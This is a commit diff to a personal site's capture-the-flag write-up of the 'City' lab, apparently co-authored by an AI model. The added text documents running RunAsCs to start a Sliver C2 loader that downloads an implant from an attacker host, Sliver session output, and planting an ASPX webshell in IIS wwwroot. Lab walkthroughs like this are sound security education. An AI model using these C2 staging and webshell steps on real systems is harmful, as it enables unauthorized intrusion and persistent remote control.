

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-city.md, in a window 1280 px wide and 1400 px high, scrolled down 30992 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add missing web_admin Sliver session and webshell upload steps
Added the RunAsCs execution as web_admin, the Sliver identity
verification showing token limitations, and the webshell deployment
to wwwroot as the alternative approach for IIS service account access.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-city.md
+++ b/_ctf/hacksmarter-city.md
@@ -991,15 +991,42 @@ Info: Upload successful!
  48141657   mtls       10.0.29.180:50583    DC-CC     CITY\sam.brooks   windows/amd64     [ALIVE]
 ```
 
-## 9.3 Obtaining IIS Shell via Webshell
+## 9.3 Sliver C2 Session as web_admin
 
-Since the Sliver stager wasn't working directly through `RunAsCs`, an ASPX webshell was deployed to the IIS wwwroot directory to execute the implant as the IIS service account.
+With the sam.brooks Sliver session established, `RunAsCs` was used to execute the Sliver implant loader as `web_admin`, obtaining a second C2 session under the IIS management account.
+
+```
+*Evil-WinRM* PS C:\tools> .\run.exe web_admin '[REDACTED]' "C:\tools\runner.exe -remote http://10.200.38.219:8000/implant.enc" -d city.local
+[*] Warning: User profile directory for user web_admin does not exists. Use --force-profile if you want to force the creation.
+[*] Warning: The logon for user 'web_admin' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more
+privileged token.
+```
+
+Verifying the new session identity in Sliver:
+
+```
+[server] sliver > use
+
+[*] Active session BIG_BRICK (48141657-5ab2-4136-9037-95d6d3c8c025)
+
+[server] sliver (BIG_BRICK) > whoami
+
+Logon ID: CITY\sam.brooks
+[*] Current Token ID: CITY\sam.brooks
+[server] sliver (BIG_BRICK) >
+```
+
+The session came back as `sam.brooks` rather than `web_admin` due to token limitations with `RunAsCs`. A different approach was needed.
+
+## 9.4 Webshell Deployment
+
+Since the Sliver stager through `RunAsCs` didn't yield a proper `web_admin` token, an ASPX webshell was uploaded to the IIS wwwroot directory to execute the implant directly as the IIS service account. The webshell (`shell.aspx`) was copied to `C:\inetpub\wwwroot\` using the sam.brooks Evil-WinRM session.
 
 <div style="text-align: center;">
   <img src="/assets/images/ctf/city/webshell-runner.png" alt="ASPX webshell executing runner.exe with Sliver implant" style="max-width: 100%;" />
 </div>
 
-The webshell at `http://city.local/shell.aspx` executed the runner binary, establishing a new Sliver session as the IIS service account.
+The webshell at `http://city.local/shell.aspx` was used to execute `c:\tools\runner.exe` with the Sliver implant URL, establishing a new C2 session running as the IIS service account.
 
 ```
 Shell exitedc5174231 BIG_BRICK - 10.0.29.180:50754 (DC-CC) - windows/amd64 - Fri, 06 Mar 2026 14:54:52 PST
@@ -1017,7 +1044,7 @@ Shell exitedc5174231 BIG_BRICK - 10.0.29.180:50754 (DC-CC) - windows/amd64 - Fri
 [*] Started remote shell [3] with pid 5968
 ```
 
-## 9.4 SeImpersonatePrivilege
+## 9.5 SeImpersonatePrivilege
 
 The IIS service account has `SeImpersonatePrivilege`, which is a well-known escalation vector on Windows.
 
````
Also changed, not shown: other parts of _ctf/hacksmarter-city.md (+1 -1 lines).
